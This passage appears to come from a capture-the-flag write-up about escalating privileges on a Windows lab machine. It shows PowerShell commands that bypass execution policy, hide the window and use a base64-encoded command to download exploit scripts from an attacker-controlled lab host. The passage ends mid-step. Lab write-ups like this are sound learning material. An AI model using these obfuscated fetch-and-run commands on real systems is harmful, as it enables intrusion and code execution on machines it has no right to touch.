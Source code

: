 Which means our command should be:

```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADYALgAyADEAMQAvAGUAeABwAC4AcABzADEAIAAtAG8AIABlAHgAcAAuAHAAcwAxAA==
```

But this also didn't work to download our exploit.

I thought maybe I needed the full path, so went hunting on google: [https://stackoverflow.com/questions/4145232/path-to-powershell-exe-v-2-0](https://stackoverflow.com/questions/4145232/path-to-powershell-exe-v-2-0)

```cmd
PS C:\Windows\System32\WindowsPowershell> dir


    Directory: C:\Windows\System32\WindowsPowershell


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
d---s        22/11/2014   7:06 ??            v1.0                                                                      


PS C:\Windows\System32\WindowsPowershell> cd v1.0
PS C:\Windows\System32\WindowsPowershell\v1.0> dir


    Directory: C:\Windows\System32\WindowsPowershell\v1.0


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
...[snip]...

-a---        22/11/2014   3:46 ??     460288 powershell.exe                                                            
...[snip]...    
```

I tried again, but still got nothing:

```cmd
PS C:\Users\kostas\Documents> C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -command "Invoke-WebRequest http://10.10.16.211/39719.ps1 -o exp.ps1"
```

And tried with the encoded command:

